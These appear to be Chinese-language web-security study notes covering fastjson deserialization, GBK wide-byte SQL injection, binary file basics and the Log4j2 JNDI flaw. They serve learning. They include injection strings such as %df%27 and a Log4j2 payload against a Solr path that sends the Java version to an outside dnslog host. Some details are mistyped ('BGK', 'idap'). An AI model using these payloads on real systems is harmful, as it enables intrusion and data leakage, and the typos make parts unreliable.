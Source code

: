 因为有了==autoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取`@type`到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。那 么就可以利用这个特性，自己构造一个JSON字符串，并且使用`@type`指定一个自己想要使用的攻击类库。==

在fastjson中我们使用`JdbcRowSetImpl`进行反序列化的攻击，我们给此类中的`setDataSourcesName`输入恶意内容（rmi链接），让目标服务在反序列化的时候，请求rmi服务器，执行rmi服务器下发的命令，从而导致远程命令执行漏洞





后面没看懂，这个后面再写  

## 0x15.宽字节注入

>  mysql默认是GBK编码，BGK汉字编码，两个字节代表一个汉字，一个字节代表一个英文或者数字
>
>  那么，两个字节就是宽字节，一个字节就是窄字节

#### 漏洞出现原因 

> -mysql默认使用BGK编码，当mysql使用bgk编码时，会认为两个字符是一个汉字，(前一个ASCII码要大于128，才会得到汉字范围)，这就是mysql的特性，因为BGK是多字节编码，它认为两个字节是一个汉字，我们在代入参数时，代入 %df%27，%27 是 单引号 的url编码

## 缓冲区溢出，堆溢出，栈溢出，文件结构  

elf文件开头 7f  45 4c 46

PE文件的全称是Portable Executable，意为可移植的可执行的文件，常见的EXE、DLL、OCX、SYS、COM都是PE文件  文件开头4D 5A

预处理，编译，汇编，链接

由高到低：栈，堆，未初始化数据，数据段，代码段

## 0x16.Log4j2  

Log4j2是一个基于JAVA的日志记录工具，利用该工具将程序的输入输出信息进行日志记录。Log4j2某些功能存在递归解析功能，导致攻击者可以直接构造恶意请求，触发rce；

例如当开发者想在日志中打印今天的日期，则只需要输出`${data:MM-dd-yyyy}`，此时log4j会将${}中包裹的内容单独处理

其实打印日期，打印系统变量这种对系统而言构不成什么威胁，最重要的原因是log4j支持JNDI协议。

#### 漏洞原理 

Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Jndi ==Lookup==模块出现问题所导致的，==该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。==

jndi 解析器将通过 jdk 获取 jndi 对象，并使用这个 jndi 对象替换原有文本进行打印。 我们将 jndi 对象理解成为一个从程序外部获取的 Java 程序对象就可以了。jdk中提供了多种不同 jndi 对象的获取方式，获取方式可以称为schema，所以正常的包含jndi的日志记录方式如下：

> - ```
>   logger.info("system propety: ${jndi:schema://url}");
>   ```

上述schema和url需替换成真实的内容方可生效。 其中，schema 是查找jndi对象的方式，jdk中支持 corbname, dns, iiop, iiopname, ==ldap==, ldaps, ==rmi==几种schema。 url是几种不同的schema下jndi的路径。不同的schema，url路径的配置方法不同。常用的schame是ldap，其url写法比较简单：`jndi:ldap://xxx.dnslog.cn`

具体payload例如：${jndi:idap://${sys:java.version}.dnslog}是利用JNDI发送DNS请求的Payload： /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.1c6zpg.dnslog.cn}
